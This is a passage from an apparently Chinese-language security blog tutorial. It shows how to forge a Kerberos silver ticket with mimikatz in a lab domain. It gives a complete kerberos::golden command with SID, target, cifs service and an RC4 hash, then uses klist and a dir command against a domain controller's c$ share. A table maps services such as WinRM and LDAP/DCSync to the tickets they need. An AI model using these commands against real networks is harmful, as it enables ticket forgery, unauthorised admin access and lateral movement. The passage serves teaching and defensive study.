 ##### [](#2-伪造白银票据 "2.伪造白银票据")2. 伪造白银票据

这时得到了 OWA2010SP3$ 的 HASH 值，通过 mimikatz 生成银票。

参数说明：

```
/domain：当前域名称
/sid：SID值，和金票一样取前面一部分
/target：目标主机，这里是OWA2010SP3.0day.org
/service：服务名称，这里需要访问共享文件，所以是cifs
/rc4：目标主机的HASH值
/user：伪造的用户名
/ptt：表示的是Pass TheTicket攻击，是把生成的票据导入内存，也可以使用/ticket导出之后再使用kerberos::ptt来导入
```

```
kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:OWA2010SP3.0day.org /service:cifs /rc4:125445ed1d553393cce9585e64e3fa07 /user:silver /ptt
```

[![](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566654188946.png)](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566654188946.png)

这时通过 klist 查看当前会话的 kerberos 票据可以看到生成的票据。

[![](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566654225879.png)](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566654225879.png)

使用`dir \\OWA2010SP3.0day.org\c$`访问 DC 的共享文件夹。

[![](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566654265383.png)](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/1566654265383.png)

#### [](#各种服务中的示例 "各种服务中的示例")各种服务中的示例

<table><thead><tr><th>Service Type</th><th>Service Silver Tickets</th></tr></thead><tbody><tr><td>WMI</td><td>HOST RPCSS</td></tr><tr><td>PowerShell Remoting</td><td>HOST HTTP</td></tr><tr><td>WinRM</td><td>HOST HTTP</td></tr><tr><td>Scheduled Tasks</td><td>HOST</td></tr><tr><td>Windows File Share (CIFS)</td><td>CIFS</td></tr><tr><td>LDAP operations includingMimikatz DCSync</td><td>LDAP</td></tr><tr><td>Windows Remote Server Administration Tools</td><td>RPCSS LDAP CIFS</td></tr></tbody></table>

##### [](#Windows共享（CIFS）管理访问的银票 "Windows共享（CIFS）管理访问的银票")Windows 共享（CIFS）管理访问的银票

为 “cifs” 服务创建白银票据，以获得目标计算机上任何 Windows 共享的管理权限。

注入 CIFS Silver Ticket 后，我们现在可以访问目标计算机上的任何共享，包括

c $ 共享，我们能够将文件拷贝到共享文件中。

##### [](#具有管理员权限的Windows计算机（HOST）白银票据 "具有管理员权限的Windows计算机（HOST）白银票据")具有管理员权限的 Windows 计算机（HOST）白银票据

创建银票以获得目标计算机上所涵盖的任何 Windows 服务的管理员权限。这包括修改和创建计划任务的权限。
